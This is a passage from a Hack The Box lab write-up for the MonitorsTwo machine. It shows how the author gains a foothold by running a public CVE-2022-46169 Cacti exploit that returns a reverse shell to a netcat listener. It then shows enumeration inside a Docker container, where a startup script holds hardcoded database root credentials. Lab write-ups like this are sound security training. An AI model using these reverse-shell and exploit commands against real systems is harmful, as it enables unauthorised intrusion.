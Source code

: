 ## Initial Foothold
To establish a foothold on this machine i used this PoC exploit 
[FredBrave/CVE-2022-46169-CACTI-1.2.22](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22) 
in the form of a reverse shell.

Listening for connections:
```shell
┌──(kali㉿rar)-[~/HTB/MonitorsTwo]
└─$ nc -lvnp 1337  
listening on [any] 1337 ...

```

Running the exploit:
```shell
┌──(kali㉿rar)-[~/HTB/MonitorsTwo]
└─$ python CVE-2022-46169/exploit.py -u http://10.10.11.211/ --LHOST=tun0_IP --LPORT=1337
```

And we are in !

![PoC success](https://github.com/0xRar/0xrar.github.io/assets/33517160/0c75957f-87f8-4d62-aff4-c1a894f2053b)


Now that we have access to the machine we can start enumerating and looking for anything that 
can allow us to get access to a local user, while looking for any scrips/files i found a shell script
(`entrypoint.sh`) on the root directory `/`, there is also a `.dockerenv` file which means we are currently
in a docker container!

```shell
www-data@50bca5e748b0:/$ cat entrypoint.sh
cat entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
	set -- apache2-foreground "$@"
fi

exec "$@"
```
